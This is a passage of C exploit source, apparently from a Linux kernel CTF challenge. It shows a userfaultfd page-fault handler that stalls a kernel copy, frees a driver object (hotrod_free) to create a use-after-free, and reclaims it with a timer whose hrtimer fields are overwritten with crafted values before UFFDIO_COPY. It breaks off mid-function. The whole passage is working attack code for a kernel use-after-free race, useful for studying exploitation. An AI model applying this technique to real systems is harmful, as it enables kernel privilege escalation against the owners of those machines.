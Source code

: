 `handler`

```c
static void* handler(void* arg)
{
	static struct uffd_msg msg;  
	struct uffdio_copy uffd_copy;

	unsigned long uffd = (unsigned long) arg;
	puts("[*] Handler started !");

	// in loop to wait pagefault
	for(;;)
	{
		// See what poll() tells us about the userfaultfd. 
		struct pollfd pollfd;
		int nready, nread;
		pollfd.fd = uffd;
		pollfd.events = POLLIN;
		nready = poll(&pollfd, 1, -1);

		if (nready == -1)
		       errExit("poll");


		nread = read(uffd, &msg, sizeof(msg));
		if (nread == 0) {
			printf("EOF on userfaultfd!\n");
			exit(EXIT_FAILURE);
		}

		char* fault_address = msg.arg.pagefault.address;
		if ((msg.event != UFFD_EVENT_PAGEFAULT) || (fault_address != map_addr)) {
			puts("[-] Unexpected Fault!");
			exit(-1);
		}


		printf("[*] Page Fualt At address: 0x%lx\n", fault_address);
		printf("[*] Mapped address: 0x%lx\n", map_addr);
		/*
		UAF here
		*/
		// free
		hotrod_free();
		//create second timer and don't free
		create_timer(0);
		// 这里需要注意 htimer.timerqueue_node.expires 和 htimer._softexpires都设置为一个过去的时间点，且相同（立即会调用回调函数）。
		((unsigned long*)(buffer))[0x3] = 0x0000000000000001;
		((unsigned long*)(buffer))[0x4] = 0x0000000000000001;
		((unsigned long*)(buffer))[0x5] = 0xdeadbeefdeadbeef;


		printf("[*] From address: 0x%lx\n", buffer);

		uffd_copy.dst = map_addr;	
		uffd_copy.src = buffer;							
		uffd_copy.len = PAGE_SIZE;
		uffd_copy.mode = 0;
		uffd_copy.copy = 0;

		if(ioctl(uffd, UFFDIO_COPY, &uffd_copy) == -1)
		{
			errExit("UFFDIO_COPY");
```